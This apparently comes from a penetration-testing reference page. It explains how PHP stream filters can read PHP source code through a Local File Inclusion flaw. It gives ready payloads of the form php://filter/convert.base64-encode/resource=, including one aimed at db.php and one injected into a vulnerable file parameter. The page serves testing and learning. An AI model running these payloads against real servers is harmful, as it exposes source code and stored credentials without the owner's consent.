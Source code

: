 # PHP - Bypass using filters

PHP filters can sometimes be exploited to read the source code of a PHP file if the server is misconfigured and allows [Local File Inclusion](local-file-inclusion.md) or direct access to PHP stream wrappers. This occurs when the _allow\_url\_include_ and _allow\_url\_fopen_ parameters are enabled on the _php.ini_ file.

LFI on PHP files usually won’t display the source code, because when included, the PHP interpreter executes the file instead of showing its contents, but using the PHP filters we can have access to the source code instead of executing the file.

Here we found how this can be exploited:

* Use payload to retrieve the source code of a PHP file

{% code overflow="wrap" lineNumbers="true" %}
```bash
php://filter/convert.base64-encode/resource=$pathToPHPfile
php://filter/convert.base64-encode/resource=db.php #Example with a default php db
```
{% endcode %}

***

* If direct file access via _php://filter_ is blocked, we can use it indirectly in a confirmed LFI point

{% code overflow="wrap" lineNumbers="true" %}
```bash
vulnerable.php?file=php://filter/convert.base64-encode/resource=$pathToPHPfile
```
{% endcode %}
